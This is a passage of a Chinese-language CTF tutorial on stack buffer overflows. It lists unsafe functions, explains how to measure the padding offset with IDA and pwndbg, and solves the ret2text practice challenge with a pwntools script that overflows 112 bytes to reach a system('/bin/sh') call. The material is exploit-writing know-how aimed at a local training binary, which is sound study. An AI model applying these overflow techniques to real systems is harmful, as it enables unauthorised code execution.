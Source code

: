 #### 寻找危险函数

* `gets()`函数：(输入不会限制长度，不会被'\x00'截断)
* `read()`函数：(读的数据长度比输入的字符`&buf`的长度长，能够造成溢出)
* `write()`函数：(写入的数据长度比输入的字符`&buf`的长度长，能够造成溢出)

#### 确定填充长度

* 通过`ida`靠栈的基地址，和`ebp/rbp`的地址偏移找到。
* 通过调试出入比填充长度长的数据，让程序报错，回显的地址与栈的`ebp`地址相差的距离为填充长度.

#### 题目类型

###### ret2text

例题就wiki的`ret2text`。

![main.jpg](http://ww1.sinaimg.cn/large/006pBakIly1ghak4ope7gj30pd07r3z3.jpg)从main函数看出`gets()`函数是漏洞点。还能在字符串里面找到`system和/bin/sh`字样。![后面函数位置.jpg](http://ww1.sinaimg.cn/large/006pBakIly1ghak5se6n5j310s0c9tbh.jpg)然后我们发现这个是一个无用的函数。![需要部分.jpg](http://ww1.sinaimg.cn/large/006pBakIly1ghak67yqr1j310a01n74j.jpg)只需要这一部分就足够了。然后就测出偏移。基本上利用`pwndbg`自带的指令`cyclc`。

```bash
cyclc 50 //生成50个用来溢出的字符，如：aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```

![报错得偏移.jpg](http://ww1.sinaimg.cn/large/006pBakIly1ghakixdgrzj31b00f6ju5.jpg)拿到相对于返回地址的偏移为112.

也可以利用寄存器的参数来算偏移

![计算偏移.jpg](http://ww1.sinaimg.cn/large/006pBakIly1ghalp5nvvzj30dx042t8s.jpg)

由于`esp = 0xffffce60`，`ebp = 0xffffcee8` ，又由于在`ida`里面`s[esp+0x1c]`,所以计算得s距离`ebp`的偏移为112.接下来就是写`exp`了.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context(log_level = "debug",arch = "i386",os = "linux")

io = process("./ret2text")

sys_addr = 0x0804863A

gdb.attach(io,"b *0x0804869B\nc")
payload = flat(['a'*112,sys_addr])
io.sendafter("anything?",payload)

io.sendline('ls')
io.interactive()

io.close()
```

本地打通
